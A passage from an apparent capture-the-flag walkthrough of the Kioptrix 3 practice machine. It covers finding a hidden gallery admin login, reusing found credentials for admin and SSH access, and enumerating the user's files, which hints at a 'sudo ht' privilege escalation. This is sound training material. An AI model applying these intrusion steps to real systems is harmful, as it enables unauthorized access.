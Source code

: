 Unfortunately, none of these credentials work with the main login form available from the site page. However, if the gallery is running it's own CMS, then it would most likely have a seperate login page as well. By viewing the source code on a gallery page, a commented out link to kioptrix3.com/gallery/gadmin/ directs me to a second login form.

### 3. Get admin access to the gallery.
Though we have two accounts to try, it makes sense to start with the one which is designated as a superuser. This succeeds. Now we have access to the photo gallery administration pages, which allows a user to upload photos and organise galleries.

### 4. Get a shell
Additionally, I can take the other set of credentials for loneferret and use them to login to the machine over SSH.
```bash
kali@kali:~/Desktop/osc/kiol3/gallery$ ssh loneferret@kioptrix3.com
The authenticity of host 'kioptrix3.com (10.1.1.7)' can't be established.
RSA key fingerprint is SHA256:NdsBnvaQieyTUKFzPjRpTVK6jDGM/xWwUi46IR/h1jU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'kioptrix3.com,10.1.1.7' (RSA) to the list of known hosts.
loneferret@kioptrix3.com's password: 
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
Last login: Sat Apr 16 08:51:58 2011 from 192.168.1.106
loneferret@Kioptrix3:~$ whoami
loneferret
````
I now have two forms of access on the machine, though a shell is way better.

### 5. Enumerate from user
There are two files in the user's home directory.
```bash
loneferret@Kioptrix3:~$ ls
checksec.sh  CompanyPolicy.README
loneferret@Kioptrix3:~$ cat CompanyPolicy.README 
Hello new employee,
It is company policy here to use our newly installed software for editing, creating and viewing files.
Please use the command 'sudo ht'.
Failure to do so will result in you immediate termination.

DG
CEO

loneferret@Kioptrix3:~$ cat checksec.sh 
#!/bin/bash
#
# The BSD License (http://www.opensource.org/licenses/bsd-license.php) 
# specifies the terms and conditions of use for checksec.sh:
#
# Copyright (c) 2009-2011, Tobias Klein.
# All rights reserved.
#
# Redistribution and use in source and binary forms, with or without 
# modification, are permitted provided that the following conditions 
```